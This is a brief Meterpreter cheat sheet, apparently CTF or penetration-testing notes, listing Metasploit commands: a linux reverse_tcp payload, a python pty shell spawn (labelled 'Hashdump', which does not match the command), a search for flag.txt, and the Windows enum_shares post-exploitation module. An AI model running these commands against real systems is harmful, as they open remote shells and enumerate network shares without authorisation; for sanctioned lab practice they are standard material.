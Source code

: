 # Meterpreter

#### Payload
```bash 
set payload linux/x86/meterpreter/reverse_tcp
```

#### Hashdump
```bash
run `python -c 'import pty;pty.spawn("/bin/bash")'`
```

#### Search
```bash
search -f flag.txt
```

#### Enum Shares Post Exploitation
```bash
background
use post/windows/gather/enum_shares
set session session_id
```

